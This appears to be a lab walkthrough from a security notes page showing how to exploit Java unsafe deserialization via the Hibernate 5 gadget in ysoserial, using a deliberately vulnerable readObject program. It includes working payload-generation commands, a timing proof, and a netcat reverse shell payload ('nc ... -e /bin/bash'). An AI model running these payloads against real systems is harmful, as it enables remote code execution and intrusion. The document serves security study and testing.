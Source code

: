 #### 5.1. Info

Burp finding - `High: Java Unsafe Deserialization, vulnerable library: Hibernate 5 (DNS) (encoded in Base64)`.

Hibernate 5 is interesting to exploit because it gives arbitrary method invocation.


#### 5.2. Match the Burp scanner payload with the `yseoserial` gadget

```
# payload_str=`grep -r 'Hibernate 5 (DNS)' ~/Java-Deserialization-Scanner | grep -oE '\"rO0AB.*\"' | tr -d '"' | tr -d '\n' | head -c 32`
# options=`java -jar ~/ysoserial.jar 2>&1 | grep -i 'hibernate' | awk '{print $1}'`
# for i in $options; do java -Dhibernate5 -jar ~/ysoserial.jar $i ls 2>/dev/null | base64 | grep -oE $payload_str && echo $i; done
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1h
Hibernate1
rO0ABXNyABFqYXZhLnV0aWwuSGFzaE1h
Hibernate2
```
Note: this indicates that either payloads might work when `hibernate5` system property is set.

However, `Hibernate1.java` is the only file that checks for `hibernate5` system property.

```java
if ( System.getProperty("hibernate5") != null ) {
	return new String[] {
		"org.hibernate:hibernate-core:5.0.7.Final",
		"aopalliance:aopalliance:1.0",
		"org.jboss.logging:jboss-logging:3.3.0.Final",
		"javax.transaction:javax.transaction-api:1.2"
	};
}
```
File: `https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/Hibernate1.java`


#### 5.3. Project setup (vulnerable application)

a) The following code `/tmp/java_serial/Main.java` simply reads a file that contains a serialized Java steam, attempts to re-build the original Java object:

```java
import java.io.*;

public class Main {
    public static void main(String[] args) throws IOException, ClassNotFoundException {
        if (args.length != 1) return;
        String filename = args[0];
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(filename));
        Object whatever = ois.readObject(); // hereby the vulnerable code
    }
}
```

b) Dependency chain for Hibernate 5:
```
# mkdir -p /tmp/java_serial/lib
# find ~/.m2 -regex ".*hibernate.*core.*5.0.7.*Final.*jar" -exec cp -- "{}" /tmp/java_serial/lib \;
# find ~/.m2 -regex ".*aopalliance.*1.0.*jar" -exec cp -- "{}" /tmp/java_serial/lib \;
# find ~/.m2 -regex ".*jboss.*logging.*3.3.0.*Final.*jar" -exec cp -- "{}" /tmp/java_serial/lib \;
# find ~/.m2 -regex ".*javax.*transaction.*api.*1.2.*jar" -exec cp -- "{}" /tmp/java_serial/lib \;
```

b.1) Download dependencies from Maven repo
```
https://repo1.maven.org/maven2/javax/transaction/javax.transaction-api/1.2/javax.transaction-api-1.2.jar
```

c) Project structure - `/tmp/java_serial`:
```
# tree /tmp/java_serial
/tmp/java_serial
├── hibernate5.serial
├── lib
│   ├── aopalliance-1.0.jar
│   ├── hibernate-core-5.0.7.Final.jar
│   ├── javax.transaction-api-1.2.jar
│   └── jboss-logging-3.3.0.Final.jar
└── Main.java

1 directory, 6 files
```

d) Compiling the program:
```
# javac Main.java # compile as regular Java program
# javac -cp `pwd`/lib/*: Main.java # in case classes from JAR file are imported in the Java program
```


#### 5.4. Exploitation - part 1 (benign)

Note:
- it is enough to provide the gadget JAR as part of the Java Class Path when running the application (similar to WebLogic)
- after running the program, successful exploitation will delay the process as expected (however this will trigger a `NullPointerException`)

a) Generate the `ysoserial` payload for `Hibernate5`:
```
# java -Dhibernate5 -jar ~/ysoserial.jar Hibernate1 "sleep 5" > /tmp/java_serial/hibernate5.serial
```

b) Exploitation - PoC:
```
# time java -cp `pwd`/lib/*: Main hibernate5.serial 2>/dev/null

real	0m5.462s
user	0m0.680s
sys	0m0.068s
```


#### 5.5. Exploitation - part 2 (reverse shell)

a) Generate the `ysoserial` payload for `Hibernate5`:
```
# java -Dhibernate5 -jar ~/ysoserial.jar Hibernate1 "nc 127.0.0.1 9999 -e /bin/bash" > /tmp/java_serial/hibernate5.serial
```

b) Exploitation - PoC:
```
# java -cp `pwd`/lib/*: Main hibernate5.serial 2>/dev/null
# nc -nlvp 9999
```



